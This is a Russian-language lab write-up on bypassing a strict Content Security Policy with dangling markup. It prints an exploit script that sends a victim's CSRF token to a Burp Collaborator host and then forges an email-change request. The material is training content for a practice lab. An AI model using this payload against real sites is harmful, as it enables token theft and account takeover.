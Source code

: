 # Reflected XSS protected by very strict CSP, with dangling markup attack

## Theory

<h3>Что такое CSP (политика безопасности контента)?</h3>

CSP — это механизм безопасности браузера, целью которого является смягчение последствий XSS и некоторых других атак. Он работает, ограничивая ресурсы (такие как скрипты и изображения), которые может загружать страница, и ограничивая возможность обрамления страницы другими страницами.

Чтобы включить CSP, ответ должен включать заголовок ответа HTTP с именем Content-Security-Policy со значением, содержащим политику. Сама политика состоит из одной или нескольких директив, разделенных точкой с запятой.

<h3>Защита от XSS-атак с помощью CSP</h3>

Следующая директива позволит загружать скрипты только из того же источника, что и сама страница:
```
script-src 'self'
```

Следующая директива разрешает загрузку скриптов только из определенного домена:
```
script-src https://scripts.normal-website.com
```

Следует соблюдать осторожность при разрешении сценариев из внешних доменов. Если у злоумышленника есть какой-либо способ контролировать контент, который обслуживается из внешнего домена, он может провести атаку. Например, сетям доставки контента (CDN), которые не используют URL-адреса для каждого клиента, такие как ajax.googleapis.com, нельзя доверять, поскольку третьи стороны могут получить контент на свои домены.

Помимо внесения в белый список определенных доменов, политика безопасности контента также предоставляет два других способа указания доверенных ресурсов: одноразовые номера и хэши:
* Директива CSP может указывать одноразовый номер (случайное значение), и это же значение должно использоваться в теге, загружающем сценарий. Если значения не совпадают, скрипт не будет выполняться. Чтобы быть эффективным в качестве элемента управления, одноразовый номер должен безопасно генерироваться при каждой загрузке страницы и не быть угаданным злоумышленником.
* Директива CSP может указывать хэш содержимого доверенного скрипта. Если хэш фактического скрипта не соответствует значению, указанному в директиве, то скрипт не будет выполняться. Если содержимое скрипта когда-либо изменится, то вам, конечно же, потребуется обновить хеш-значение, указанное в директиве.

CSP довольно часто блокирует такие ресурсы, как скрипт. Однако многие CSP разрешают запросы изображений. Это означает, что вы часто можете использовать элементы img для выполнения запросов к внешним серверам, например, для раскрытия токенов CSRF.

Некоторые браузеры, такие как Chrome, имеют встроенное средство устранения висячей разметки, которое блокирует запросы, содержащие определенные символы, такие как необработанные, незакодированные новые строки или угловые скобки.

Некоторые политики являются более строгими и запрещают все формы внешних запросов. Однако все еще можно обойти эти ограничения, вызвав некоторое взаимодействие с пользователем. Чтобы обойти эту форму политики, вам нужно внедрить элемент HTML, который при щелчке будет хранить и отправлять все, что содержится во внедренном элементе, на внешний сервер.

## Writeup

* Имеющиеся данные: 
    * Данные нашего пользователя: wiener:peter

Главная страница:

![](./assets/1.png)

Логинимся с имеющимися данными.

![](./assets/2.png)

Перейдем на exploit server.

![](./assets/3.png)

Запустим Burp Collaborator Client.

![](./assets/4.png)

В поле Body впишем наш экплоит. Код эксплоита:
```
<script>
if(window.name) {
	new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
	} else {
		location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

Код экплоита без URL-кодировки:
```
<script>
if(window.name) {
	new Image().src='//twtylpjxh91jnpejwc4dmw0jwa21qq.burpcollaborator.net?' encodeURIComponent(window.name);
	} else {
		location = 'https://0af200d103aad34cc02204dc00ca0014.web-security-academy.net/my-account?email="><a href="https://exploit-0aa700e20343d3b5c008043101d70063.web-security-academy.net/exploit">Click me</a><base target='';
}
</script>
```

![](./assets/5.png)

Отправляем эксплоит жертве. Переходим в Burp Collaborator Client. В одном из запросов мы можем найти CSRF токен. Скопируем его.

![](./assets/6.png)

Перейдем в аккаунт и отправим запрос на смену почты. Перехватим его.

![](./assets/7.png)

В меню иструментов найдем "Generate CSRF PoC".

![](./assets/8.png)

В слевой части, в запросе изменим значение CSRF токена на то, которое мы скопировали ранее.

![](./assets/9.png)

В панели Options включим опцию "Include auto-submit script"

![](./assets/10.png)

Затем нажмем на кнопку "Regenerate". Скопируем HTML и вставим в поле body в exploit server. Отправляем жертве.

![](./assets/11.png)

Получаем ответ от сервера.

![](./assets/12.png)


